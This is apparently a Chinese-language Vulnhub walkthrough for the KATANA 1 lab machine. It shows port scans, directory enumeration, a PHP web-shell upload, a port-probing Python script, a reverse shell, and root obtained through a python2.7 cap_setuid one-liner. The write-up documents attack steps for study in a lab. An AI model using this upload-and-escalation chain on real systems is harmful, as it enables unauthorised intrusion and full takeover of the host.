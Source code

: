 ```yaml
---

title: Vulnhub 482 KATANA 1

---
```


考点：文件上传,cap_setuid+ep

靶机链接：<https://www.vulnhub.com/entry/katana-1,482/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| KATANA: 1  | 10.0.2.21 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.21  
$ sudo nmap -v -p- $rip
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 89:4f:3a:54:01:f8:dc:b6:6e:e0:78:fc:60:a6:de:35 (RSA)
|   256 dd:ac:cc:4e:43:81:6b:e3:2d:f3:12:a1:3e:4b:a3:22 (ECDSA)
|_  256 cc:e6:25:c0:c6:11:9f:88:f6:c4:26:1e:de:fa:e9:8b (ED25519)
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Katana X
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7080/tcp open  ssl/http    LiteSpeed httpd
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US
| Issuer: commonName=katana/organizationName=webadmin/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-11T13:57:36
| Not valid after:  2022-05-11T13:57:36
| MD5:   0443 4a65 9ba1 0b75 ea8d d1b8 c855 e495
|_SHA-1: f89e f85e e6b3 6b10 4ebc 5354 80a0 0ae3 7e10 50cc
|_http-server-header: LiteSpeed
|_http-title: Katana X
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
|_http-favicon: Unknown favicon MD5: AF89068FFB9883F7D99BB25F75687AC7
8088/tcp open  http        LiteSpeed httpd
|_http-server-header: LiteSpeed
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Katana X
8715/tcp open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-title: 401 Authorization Required
```

### WEB测试

#### 端口80

```bash
$ dirsearch -u http://10.0.2.21/    
                                      
[01:58:10] 200 -  655B  - /index.html                                       
[01:58:17] 403 -  274B  - /server-status                                    
[01:58:17] 403 -  274B  - /server-status/ 
```



#### 端口7080

dirsearch 无收获

#### 端口8088

```bash
$ dirsearch -u http://10.0.2.21:8088   
[01:55:13] Starting: 
[01:55:25] 301 -    1KB - /cgi-bin  ->  http://10.0.2.21:8088/cgi-bin/      
[01:55:27] 301 -    1KB - /css  ->  http://10.0.2.21:8088/css/              
[01:55:27] 301 -    1KB - /docs  ->  http://10.0.2.21:8088/docs/            
[01:55:27] 200 -    5KB - /docs/                                            
[01:55:30] 301 -    1KB - /img  ->  http://10.0.2.21:8088/img/              
[01:55:30] 200 -  655B  - /index.html                                       
[01:55:36] 200 -   50KB - /phpinfo.php                                      
[01:55:38] 401 -    1KB - /protected/runtime/                               
[01:55:38] 401 -    1KB - /protected/data/                                  
[01:55:43] 200 -    6KB - /upload.html                                      
[01:55:43] 200 -    2KB - /upload.php
```

![1](https://static.iihack.com/vulnhub/482/1.jpg)

上传php一句话后，文件名改为`katana_2.php`

#### 端口8715

访问后有http认证，弱口令admin admin访问后无收获


### 漏洞发现

根据8088端口上传的文件名称`katana_2.php` 编写小脚本 

```bash
import os

ip = '10.0.2.21'
ports = ('80','7080','8088','8715')
file = 'katana_2.php'
for port in ports:
    url ='http://'+ ip +':'+port +'/'+ file
    print(url)
    os.system('curl -I %s ' % url)
```

![2](https://static.iihack.com/vulnhub/482/2.jpg)



## 获得权限

访问http://10.0.2.21:8715/katana_2.php返回200，使用antsword连接成功

![3](https://static.iihack.com/vulnhub/482/3.jpg)



上传r444.php 访问后本地获得反弹shell

![4](https://static.iihack.com/vulnhub/482/4.jpg)


## 提权

运行linpeas.sh发现

![5](https://static.iihack.com/vulnhub/482/5.jpg)



```bash
www-data@katana:/tmp$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
# whoami
```

获得root权限

![6](https://static.iihack.com/vulnhub/482/6.jpg)
